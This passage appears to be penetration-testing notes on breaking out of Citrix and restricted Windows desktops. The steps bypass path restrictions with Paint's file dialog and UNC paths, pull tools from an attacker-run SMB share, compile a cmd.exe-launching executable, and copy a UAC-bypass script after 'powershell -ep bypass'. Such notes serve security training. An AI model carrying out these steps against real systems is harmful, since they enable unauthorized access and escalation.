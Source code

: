 ## Restricted Environments

* [Citrix breakout](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/):

    * bypassing path restrictions:

        * using File Explorer, we cannot visit 'C:\Users' as it throws an error
        * we can [use Windows dialog boxes to bypass the GPO restrictions](https://node-security.com/posts/breaking-out-of-windows-environments/)
        * we can access apps like Paint, then click on File > Open - this opens a dialog box to choose the file path
        * here we can enter the UNC path ```\\127.0.0.1\c$\users\pmorgan``` in the filename field, with filetype set to 'All Files' - this gives us access to the Users directory
    
    * accessing SMB share from restricted environment:

        * on attacker, start a SMB server - ```smbserver.py -smb2support share $(pwd)```
        * on Citrix environment, start Paint app, click on File > Open - this prompts the dialog box
        * input UNC path ```\\10.10.14.15\share``` in the filename field with filetype set to 'All Files' - this lets us access the attacker SMB share
        * we can right-click on the file and open it
        * we can serve compiled '.exe' files which can launch the command prompt (so that launching the '.exe' file gives us a shell):

            ```c
            #include <stdlib.h>
            int main() {
            system("C:\\Windows\\System32\\cmd.exe");
            }
            ```

            ```sh
            # on attacker
            vim cmd.c

            # compile
            x86_64-w64-mingw32-gcc cmd.c -o cmd.exe
            ```
        
        * we can then use the cmd to copy files from SMB share:

            ```sh
            powershell -ep bypass
            # launch PS in cmd

            xcopy \\10.10.14.15\share\Bypass-UAC.ps1 .

            dir
            # files are copied now
            ```
    